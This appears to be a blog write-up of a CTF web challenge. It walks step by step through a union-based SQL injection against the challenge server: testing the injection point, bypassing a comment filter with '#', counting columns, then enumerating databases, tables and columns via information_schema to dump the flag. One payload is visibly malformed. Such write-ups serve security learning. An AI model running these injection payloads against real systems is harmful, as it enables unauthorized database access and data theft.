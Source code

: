 ```yaml
---
title: 成绩单
date: 2019-11-25 20:15:32
tags:
---
```


[题目123.206.87.240:8002/chengjidan/index.php](http://123.206.87.240:8002/chengjidan/index.php)

![](/img/web/成绩单/1.png)

<!-- more --> 

#### 测试注入点

1 and 1=1

![](/img/web/成绩单/2.png)

正确。

1 and 1=2

错误。

1‘  -- 

错误，-- 过滤。

1’ #

正确。

#### 查字段数量

1’ order by 4#

正确。

1’ order by 5#

错误。



-1‘ union select 1,2,3,4

#### 找到所有数据库

-1' union select 1,group_concat(SCHEMA_NAME) from information_schema.SCHEMATA,3,4#

![](/img/web/成绩单/5.png)

#### 找表

-1' union select 1,2,3,group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA='skctf_flag'#

![](/img/web/成绩单/6.png)

#### 找字段

-1' union select 1,2,3,group_concat(column_name)from information_schema.COLUMNS where TABLE_SCHEMA='skctf_flag' and TABLE_NAME='fl4g'#

![](/img/web/成绩单/8.png)

#### 找数据

-1' union select 1,2,3,skctf_flag from skctf_flag.fl4g#

![](/img/web/成绩单/7.png)




